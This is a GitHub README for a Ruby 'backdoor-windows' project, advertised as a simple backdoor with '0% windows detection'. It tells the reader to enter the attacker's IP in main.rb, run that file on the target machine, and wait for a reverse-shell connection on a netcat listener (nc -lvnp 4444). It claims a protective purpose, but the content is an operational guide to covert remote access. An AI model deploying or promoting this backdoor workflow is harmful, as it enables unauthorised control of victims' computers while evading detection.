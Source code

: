 # 🦑 Backdoor-windows
 
![GitHub repo size](https://img.shields.io/github/repo-size/DioBruh/backdoor-windows?style=for-the-badge)
![GitHub language count](https://img.shields.io/github/languages/count/DioBruh/backdoor-windows?style=for-the-badge)
![GitHub forks](https://img.shields.io/github/forks/DioBruh/backdoor-windows?style=for-the-badge)
![Bitbucket open issues](https://img.shields.io/bitbucket/issues/DioBruh/backdoor-windows?style=for-the-badge)
![Bitbucket open pull requests](https://img.shields.io/bitbucket/pr-raw/DioBruh/backdoor-windows?style=for-the-badge)
 
<p>
  <img src="https://i.pinimg.com/originals/8d/bb/fc/8dbbfcd986821d26a8c09ace36045c0f.png"width=300px>
</p>

<p>
  <img src="https://camo.githubusercontent.com/7f611eb7fa49f2b2cf006f5164f75e1b4fafd3d967bfe0b00b717d3a10ebd44d/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f527562792d4343333432443f7374796c653d666f722d7468652d6261646765266c6f676f3d72756279266c6f676f436f6c6f723d7768697465"
</p>

> Simple backdoor with 0% windows detection
  
My goal with this is not to black hat and throw around something that will screw someone is literally the opposite is to help you protect yourself 

## 💻 Requirements
* Latest `Ruby` version.
  
  ## ☕ Using
`Clone` the repository using:

```
git clone https://github.com/DioBruh/backdoor-windows
```

<span>Export attacker ip in <a href="https://github.com/DioBruh/backdoor-windows/blob/main/main.rb">main.rb</a></span>

```ruby
RHOST = '' # Hacker ip.
```

<span>If you don't know your ip, use:"</span>

```powershell
ifconfig
```
  
<p>
  <img src="https://github.com/DioBruh/reverse-shell/blob/main/images/ifconfig.png" width="600px;">
</p>

## 💻 Init

* Init `archive` <a href="https://github.com/DioBruh/backdoor-windows/blob/main/main.rb">main.rb</a> on target machine.<br>
* Start a `listen` on your pc listening to port 4444 with the command ```nc -lvnp 4444```
* Wait for `connection`.

## 🤝 Contributors.
<table>
    <td align="center">
      <a href="https://github.com/DioBruh/">
        <img src="https://github.com/OnlyFalopas/falopas-painel/blob/main/devs/87872423.jpg" width="100px;" alt="Foto do DIO"/><br>
        <sub>
          <b>Dio Brando</b>
        </sub>
      </a>
    </td>
  </tr>
</table>
